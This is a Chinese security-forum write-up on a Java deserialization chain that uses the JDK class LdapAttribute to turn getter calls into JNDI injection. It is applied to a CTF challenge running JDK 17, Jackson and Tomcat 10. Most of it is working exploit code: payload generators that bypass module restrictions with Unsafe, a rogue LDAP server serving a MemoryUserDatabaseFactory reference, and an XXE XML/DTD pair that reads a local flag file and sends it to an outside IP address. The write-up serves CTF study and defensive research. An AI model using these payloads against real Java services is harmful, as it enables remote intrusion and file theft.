








# 从getter到jndi之LdapAttribute反序列化链-先知社区

> **来源**: https://xz.aliyun.com/news/17700  
> **文章ID**: 17700

---

# 从getter到jndi之LdapAttribute反序列化链

## 前言

如果现在可以调用 getter 方法但是在 jdk 高版本中 `TransformerImpl` 因为模块化无法使用我们还能有什么 sink 点呢，这就不得不提今天的主角 jdk 原生类 `LdapAttribute` 了，这个类存在 getter 方法可以打 jndi 注入。

## 调试分析

定位到 `LdapAttribute#getAttributeDefinition()` 方法，漏洞触发点在 `getSchema` 方法中，跟进



继续跟进 `PartialCompositeDirContext.getSchema` 方法，



一直到 `c_resolveIntermediate_nns` 方法，在这里调用了 `LdapCtx.c_lookup` 方法，



还记得 jndi 注入中 ldap 的调用栈

```
LdapCtx.c_lookup()
ComponentContext.p_lookup()
PartialCompositeContext.lookup()
GenericURLContext.lookup()
ldapURLContext.lookup()
InitialContext.lookup()
```

只要是调用这些方法中的任意一个都能触发 jndi 注入，这里就是 `LdapCtx.c_lookup()`，继续跟进就来到了我们熟悉的 `decodeObject` 方法，可以打 ldap 反序列化来绕过 jdk 高版本下的 jndi 注入，不过需要有 gadget。



简单写一个 cb 到 jndi 的 poc

```
import org.apache.commons.beanutils.BeanComparator;  
import java.io.*;  
import javax.naming.CompositeName;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.lang.reflect.Method;  
import java.util.*;  
  
public class  cb_jndi {  
    public static void main(String[] args) throws Exception {  
  
        Class clazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");  
        Constructor<?> constructor = clazz.getDeclaredConstructor(String.class);  
        constructor.setAccessible(true);  
        Object obj = constructor.newInstance("name");  
  
        ReflectUtil.setFieldValue(obj, "baseCtxURL", "ldap://localhost:9999");  
        ReflectUtil.setFieldValue(obj, "rdn", new CompositeName("a/b"));  
  
        BeanComparator beanComparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);  
        PriorityQueue priorityQueue = new PriorityQueue(2, beanComparator);  
        priorityQueue.add("1");  
        priorityQueue.add("1");  
  
        beanComparator.setProperty("attributeDefinition");  
        ReflectUtil.setFieldValue(priorityQueue, "queue", new Object[]{obj, obj});  
  
        serilize(priorityQueue);  
        deserilize("ser.bin");  
  
    }  
  
    public static void serilize(Object obj)throws IOException {  
        ObjectOutputStream out=new ObjectOutputStream(new FileOutputStream("ser.bin"));  
        out.writeObject(obj);  
    }  
    public static Object deserilize(String Filename)throws IOException,ClassNotFoundException{  
        ObjectInputStream in=new ObjectInputStream(new FileInputStream(Filename));  
        Object obj=in.readObject();  
        return obj;  
  
    }  
}  
  
  
class ReflectUtil {  
    public static void setFieldValue(Object obj, String name, Object val) throws Exception {  
        setFieldValue(obj.getClass(), obj, name, val);  
    }  
    public static void setFieldValue(Class<?> clazz, Object obj, String name, Object val) throws Exception {  
        Field f = clazz.getDeclaredField(name);  
        f.setAccessible(true);  
        f.set(obj, val);  
    }  
}
```

## JDBCParty

这是一道软件攻防初赛的 java 题，jdk 版本为17，在 `/dbtest` 路由存在反序列化和 jdbc 连接，



但是 jdbc 连接没法控制 url 所以我们的目光还是主要集中在反序列化上，看看依赖，存在 jackson，fastjson2，tomcat10.1.31 等

```
- "BOOT-INF/lib/spring-boot-3.3.5.jar"  
- "BOOT-INF/lib/spring-boot-autoconfigure-3.3.5.jar"  
- "BOOT-INF/lib/logback-classic-1.5.11.jar"  
- "BOOT-INF/lib/logback-core-1.5.11.jar"  
- "BOOT-INF/lib/log4j-to-slf4j-2.23.1.jar"  
- "BOOT-INF/lib/log4j-api-2.23.1.jar"  
- "BOOT-INF/lib/jul-to-slf4j-2.0.16.jar"  
- "BOOT-INF/lib/jakarta.annotation-api-2.1.1.jar"  
- "BOOT-INF/lib/snakeyaml-2.2.jar"  
- "BOOT-INF/lib/jackson-databind-2.17.2.jar"  
- "BOOT-INF/lib/jackson-annotations-2.17.2.jar"  
- "BOOT-INF/lib/jackson-core-2.17.2.jar"  
- "BOOT-INF/lib/jackson-datatype-jdk8-2.17.2.jar"  
- "BOOT-INF/lib/jackson-datatype-jsr310-2.17.2.jar"  
- "BOOT-INF/lib/jackson-module-parameter-names-2.17.2.jar"  
- "BOOT-INF/lib/tomcat-embed-core-10.1.31.jar"  
- "BOOT-INF/lib/tomcat-embed-el-10.1.31.jar"  
- "BOOT-INF/lib/tomcat-embed-websocket-10.1.31.jar"  
- "BOOT-INF/lib/spring-web-6.1.14.jar"  
- "BOOT-INF/lib/spring-beans-6.1.14.jar"  
- "BOOT-INF/lib/micrometer-observation-1.13.6.jar"  
- "BOOT-INF/lib/micrometer-commons-1.13.6.jar"  
- "BOOT-INF/lib/spring-webmvc-6.1.14.jar"  
- "BOOT-INF/lib/spring-aop-6.1.14.jar"  
- "BOOT-INF/lib/spring-context-6.1.14.jar"  
- "BOOT-INF/lib/spring-expression-6.1.14.jar"  
- "BOOT-INF/lib/thymeleaf-spring6-3.1.2.RELEASE.jar"  
- "BOOT-INF/lib/thymeleaf-3.1.2.RELEASE.jar"  
- "BOOT-INF/lib/attoparser-2.0.7.RELEASE.jar"  
- "BOOT-INF/lib/unbescape-1.1.6.RELEASE.jar"  
- "BOOT-INF/lib/slf4j-api-2.0.16.jar"  
- "BOOT-INF/lib/spring-core-6.1.14.jar"  
- "BOOT-INF/lib/spring-jcl-6.1.14.jar"  
- "BOOT-INF/lib/ojdbc11-21.14.0.0.jar"  
- "BOOT-INF/lib/tomcat-jdbc-10.1.31.jar"  
- "BOOT-INF/lib/tomcat-juli-10.1.31.jar"  
- "BOOT-INF/lib/batik-swing-1.14.jar"  
- "BOOT-INF/lib/batik-anim-1.14.jar"  
- "BOOT-INF/lib/batik-parser-1.14.jar"  
- "BOOT-INF/lib/batik-svg-dom-1.14.jar"  
- "BOOT-INF/lib/batik-awt-util-1.14.jar"  
- "BOOT-INF/lib/xmlgraphics-commons-2.6.jar"  
- "BOOT-INF/lib/commons-io-1.3.1.jar"  
- "BOOT-INF/lib/commons-logging-1.0.4.jar"  
- "BOOT-INF/lib/batik-bridge-1.14.jar"  
- "BOOT-INF/lib/batik-xml-1.14.jar"  
- "BOOT-INF/lib/batik-css-1.14.jar"  
- "BOOT-INF/lib/batik-dom-1.14.jar"  
- "BOOT-INF/lib/xalan-2.7.2.jar"  
- "BOOT-INF/lib/serializer-2.7.2.jar"  
- "BOOT-INF/lib/xml-apis-1.4.01.jar"  
- "BOOT-INF/lib/batik-ext-1.14.jar"  
- "BOOT-INF/lib/batik-gui-util-1.14.jar"  
- "BOOT-INF/lib/batik-gvt-1.14.jar"  
- "BOOT-INF/lib/batik-script-1.14.jar"  
- "BOOT-INF/lib/batik-shared-resources-1.14.jar"  
- "BOOT-INF/lib/batik-util-1.14.jar"  
- "BOOT-INF/lib/batik-constants-1.14.jar"  
- "BOOT-INF/lib/batik-i18n-1.14.jar"  
- "BOOT-INF/lib/xml-apis-ext-1.3.04.jar"  
- "BOOT-INF/lib/fastjson2-2.0.37.jar"  
- "BOOT-INF/lib/spring-boot-jarmode-tools-3.3.5.jar"
```

没有直接能用的反序列化链子，不过这里 fj 和 jackson 可以调用任意 getter 方法，`TransformerImpl` 因为模块化机制没法使用了，这时就可以考虑上面提到的 LdapAttribute 类了，把反序列化转换为 jndi 注入，

构造 poc

```
import com.fasterxml.jackson.databind.node.POJONode;  
import javassist.ClassPool;  
import javassist.CtClass;  
import javassist.CtMethod;  
import javassist.LoaderClassPath;  
import org.springframework.aop.framework.AdvisedSupport;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Proxy;  
import sun.misc.Unsafe;  
import javax.naming.CompositeName;  
import javax.naming.directory.Attribute;  
import javax.swing.event.EventListenerList;  
import javax.swing.undo.UndoManager;  
import java.io.ByteArrayOutputStream;  
import java.io.ObjectOutputStream;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.lang.reflect.Method;  
import java.util.Base64;  
import java.util.Vector;  
  
public class test {  
    public static void main(String[] args) throws Exception {  
        Field field = Unsafe.class.getDeclaredField("theUnsafe");  
        field.setAccessible(true);  
        Unsafe unsafe = (Unsafe) field.get((Object) null);  
        Module baseModule=Object.class.getModule();  
        Class<?> currentClass= test.class;  
        long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));  
        unsafe.getAndSetObject(currentClass,addr,baseModule);  
  
  
        ClassPool.getDefault().insertClassPath(new LoaderClassPath(test.class.getClassLoader()));  
        CtClass ctClass = ClassPool.getDefault().getCtClass("com.fasterxml.jackson.databind.node.BaseJsonNode");  
        // 获取原方法  
        CtMethod originalMethod = ctClass.getDeclaredMethod("writeReplace");  
        // 修改方法名  
        originalMethod.setName("Replace");  
        // 4. 获取修改后的字节码  
        byte[] classBytes = ctClass.toBytecode();  
        ctClass.detach();  
        Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);  
        defineClass.setAccessible(true);  
        ClassLoader classLoader =test.class.getClassLoader();  
        Class<?> modifiedClass = (Class<?>) defineClass.invoke(  
                classLoader, "com.fasterxml.jackson.databind.node.BaseJsonNode",  
                classBytes, 0, classBytes.length);  
  
        Class clazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");  
        Constructor<?> constructor = clazz.getDeclaredConstructor(String.class);  
        constructor.setAccessible(true);  
        Object obj = constructor.newInstance("name");  
  
        ReflectUtil.setFieldValue(obj, "baseCtxURL", "ldap://localhost:1389");  
        ReflectUtil.setFieldValue(obj, "rdn", new CompositeName("a/b"));  
  
        Class<?> clazz1 = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");  
        Constructor<?> cons = clazz1.getDeclaredConstructor(AdvisedSupport.class);  
        cons.setAccessible(true);  
        AdvisedSupport advisedSupport = new AdvisedSupport();  
        advisedSupport.setTarget(obj);  
        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);  
        Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Attribute.class}, handler);  
        POJONode jsonNodes = new POJONode(proxyObj);  
  
  
        EventListenerList list2 = new EventListenerList();  
        UndoManager manager = new UndoManager();  
        Vector vector = (Vector) getFieldValue(manager, "edits");  
        vector.add(jsonNodes);  
        unsafe.putObject(list2, unsafe.objectFieldOffset(list2.getClass().getDeclaredField("listenerList")), new Object[]{InternalError.class, manager});  
  
        ByteArrayOutputStream bao = new ByteArrayOutputStream();  
        new ObjectOutputStream(bao).writeObject(list2);  
        System.out.println(Base64.getEncoder().encodeToString(bao.toByteArray()));  
    }  
    public static Object getFieldValue(Object obj, String fieldName) throws Exception {  
        Field field = getField(obj.getClass(), fieldName);  
        return field.get(obj);  
    }  
    public static Field getField(Class<?> clazz, String fieldName) {  
        Field field = null;  
  
        try {  
            field = clazz.getDeclaredField(fieldName);  
            field.setAccessible(true);  
        } catch (NoSuchFieldException var4) {  
            if (clazz.getSuperclass() != null) {  
                field = getField(clazz.getSuperclass(), fieldName);  
            }  
        }  
  
        return field;  
    }  
}  
class ReflectUtil {  
  
    public static void setFieldValue(Object obj, String name, Object val) throws Exception {  
        setFieldValue(obj.getClass(), obj, name, val);  
    }  
    public static void setFieldValue(Class<?> clazz, Object obj, String name, Object val) throws Exception {  
        Field field = Unsafe.class.getDeclaredField("theUnsafe");  
        field.setAccessible(true);  
        Unsafe unsafe = (Unsafe) field.get((Object) null);  
        Module baseModule=Object.class.getModule();  
        Class<?> currentClass= ReflectUtil.class;  
        long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));  
        unsafe.getAndSetObject(currentClass,addr,baseModule);  
        Field f = clazz.getDeclaredField(name);  
        f.setAccessible(true);  
        f.set(obj, val);  
    }  
  
  
}
```

那么现在就变为了打 jdk 高版本下的 jndi 了，这里是 tomcat 10，自然没法使用 Beanfactory 了，不过在 tomcat 中还有个工程类可以利用那就是 `MemoryUserDatabaseFactory`，这个工程类可以实现 xxe 和写文件，

其 getObjectInstance 方法，判断 ResourceRef 是不是为 `org.apache.catalina.UserDatabase`



接着先实例化一个 `MemoryUserDatabase` 对象然后从 Reference 中取出 pathname、readonly 这两个最主要的参数并调用 setter 方法赋值。



赋值完成会先调用 `open()` 方法，如果 `readonly=false` 那就会调用 `save()` 方法。


跟进 open() 方法，连接给的 pathName 地址然后解析返回的 xml，


最后构造 ldap 服务端

```
package org.example;  
  
import com.unboundid.ldap.listener.InMemoryDirectoryServer;  
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;  
import com.unboundid.ldap.listener.InMemoryListenerConfig;  
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;  
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;  
import com.unboundid.ldap.sdk.Entry;  
import com.unboundid.ldap.sdk.LDAPResult;  
import com.unboundid.ldap.sdk.ResultCode;  
import org.apache.naming.ResourceRef;  
  
import javax.naming.Reference;  
import javax.naming.StringRefAddr;  
import javax.net.ServerSocketFactory;  
import javax.net.SocketFactory;  
import javax.net.ssl.SSLSocketFactory;  
import java.io.ByteArrayOutputStream;  
import java.io.IOException;  
import java.io.ObjectOutputStream;  
import java.net.InetAddress;  
import java.util.ArrayList;  
import java.util.List;  
  
public class LDAP_BS2 {  
    private static final String LDAP_BASE = "dc=example,dc=com";  
  
    public static void main(String[] args) {  
  
        int port = 1389;  
  
        try {  
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);  
            config.setListenerConfigs(new InMemoryListenerConfig(  
                    "listen",  
                    InetAddress.getByName("0.0.0.0"),  
                    port,  
                    ServerSocketFactory.getDefault(),  
                    SocketFactory.getDefault(),  
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));  
  
            config.addInMemoryOperationInterceptor(new OperationInterceptor());  
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);  
            System.out.println("Listening on 0.0.0.0:" + port);  
            ds.startListening();  
        }  
        catch (Exception e) {  
            e.printStackTrace();  
        }  
    }  
    public static byte[] serialize(Object obj) throws IOException {  
        ByteArrayOutputStream baos = new ByteArrayOutputStream();  
        ObjectOutputStream oos = new ObjectOutputStream(baos);  
        oos.writeObject(obj);  
        return baos.toByteArray();  
    }  
    private static class OperationInterceptor extends InMemoryOperationInterceptor {  
  
        @Override  
        public void processSearchResult(InMemoryInterceptedSearchResult result) {  
            String base = result.getRequest().getBaseDN();  
            Entry e = new Entry(base);  
  
            e.addAttribute("javaClassName", "foo");  
            try {  
  
  
                ResourceRef ref = new ResourceRef("org.apache.catalina.UserDatabase", null, "", "",  
                        true, "org.apache.catalina.users.MemoryUserDatabaseFactory", null);  
  
                ref.add(new StringRefAddr("pathname", "http://47.109.156.81:4567/test.xml"));  
  
                e.addAttribute("javaSerializedData", serialize(ref));  
  
                result.sendSearchEntry(e);  
                result.setResult(new LDAPResult(0, ResultCode.SUCCESS));  
            } catch (Exception exception) {  
                exception.printStackTrace();  
            }  
        }  
    }  
}
```

test.xml

```
<?xml version="1.0" encoding="utf-8" ?>  
<!DOCTYPE xdsec[  
        <!ENTITY % include SYSTEM "http://47.109.156.81:6789/test.dtd" >  
        %include;  
        %define_http;%send_http;  
        ]>  
<books></books>
```

test.dtd

```
<!ENTITY % file SYSTEM "file:///E:/tmp/flag.txt">  
<!ENTITY % define_http "<!ENTITY &#37; send_http SYSTEM 'http://47.109.156.81:6666/%file;'>">
```

同样存在 jackson 不稳定性，多打几次，最后成功读取 `E:/tmp/flag.txt` 内容



虽然 java 中 file 协议的话还有列目录功能，但是外带貌似仅限于目录下只存在一个文件，尝试解决但是没有解决，至于写文件这里就不分析了。

其实参考 <https://xz.aliyun.com/news/16917> 发现还可以进行 rce。

参考：<https://xz.aliyun.com/news/8630>

参考：<https://xz.aliyun.com/news/16904>

参考：[https://gsbp0.github.io/post/jdk17打jackson+ldapattruibute反序列化/](https://gsbp0.github.io/post/jdk17%E6%89%93jackson+ldapattruibute%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)
